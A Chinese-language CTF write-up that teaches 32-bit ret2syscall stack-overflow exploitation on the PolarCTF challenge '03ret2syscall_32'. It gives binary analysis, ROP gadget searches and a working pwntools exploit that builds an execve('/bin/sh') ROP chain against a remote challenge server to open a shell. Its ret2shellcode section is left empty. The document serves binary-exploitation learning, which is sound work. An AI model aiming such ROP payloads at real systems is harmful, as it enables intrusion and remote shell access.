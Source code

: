 ```yaml
---
title: 基础栈溢出ret2syscall
layout: doc

---
```

[[toc]]

## 系统调用

### write
```asm
    mov eax, 0x4
    mov ebx, 1
    mov ecx, [ "Hello, World!\n" ]
    mov edx, 13
    int 0x80
    => write(1, "Hello, World!\n", 13)
```
### execve
```asm
    mov eax, 0xb
    mov ebx, [ "/bin/sh" ]
    mov ecx, 0
    mov edx, 0
    int 0x80
    => execve("/bin/sh", 0, 0)
```
## 原理图 
> 很重要

![alt text](image-18.png)

## 例题
> PolarCTFD&N 03ret2syscall_32

### 分析
```zsh
┌──(kali㉿kali)-[~/win/Downloads]
└─$ file 03ret2syscall_32
03ret2syscall_32: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=7aa0a75d7429c4ba7ba95be1bcae6dd669105fad, not stripped

┌──(kali㉿kali)-[~/win/Downloads]
└─$ checksec --file=03ret2syscall_32
[*] '/home/kali/win/Downloads/03ret2syscall_32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```

开了部分随机化，堆栈可执行

### ida

![alt text](image-19.png)

没有system 但存在 /bin/sh

可以使用 
- ret2shellcode
- ret2libc
- ret2syscall

为达学习目的，本次例题将全部展示

### ret2syscall

通过构造execve的ROP链，实现攻击

ROPgadget
```zsh
┌──(kali㉿kali)-[~/win/Downloads]
└─$ ROPgadget --binary 03ret2syscall_32 --only "pop|ret|int"
0x0806cea3 : int 0x80
0x080b8576 : pop eax ; ret
0x0806f250 : pop edx ; pop ecx ; pop ebx ; ret
# 虽然存在很多短小的 pop x; ret
# 但我们选择连续pop的 更加简洁

┌──(kali㉿kali)-[~/win/Downloads]
└─$ ROPgadget --binary 03ret2syscall_32 --string "/bin/sh"
Strings information
============================================================
0x080ea068 : /bin/sh

```
**一定要注意 是 32 还是 64 位**
exp.py
```py
from pwn import *
context(arch="i386", os="linux")
# io = process("./03ret2syscall_32")
io = remote("120.46.59.242", 2127)
padding = 0x208 + 4

print(io.recvline())
print(io.recvline())

sh_addr = 0x080ea068
int_addr = 0x0806cea3
pop_eax_ret = 0x080b8576
pop_edx_ecx_ebx_ret = 0x0806f250

# 很漂亮的传参 ROP链 使用flat函数就不用担心位数了
payload = b'a'*padding + p32(pop_eax_ret) + p32(0xb) + p32(pop_edx_ecx_ebx_ret) + p32(0) + p32(0) + p32(sh_addr) + p32(int_addr)
# payload = flat(['a'*padding,pop_eax_ret , 0xb , pop_edx_ecx_ebx_ret, 0 , 0 , sh_addr , int_addr])

io.sendline(payload)
io.interactive()
```
### ret2shellcode （当堆栈可执行，或者BSS段可写）
**需要能拿到缓冲区的地址**
现在我的技术，拿不到，行不通，有想法的联系我
观察到gets里有参数，试试不覆盖参数，只覆盖地址？
```py

```
### ret2libc
这是静态链接库，无法连接到libc只能 ret2syscall了
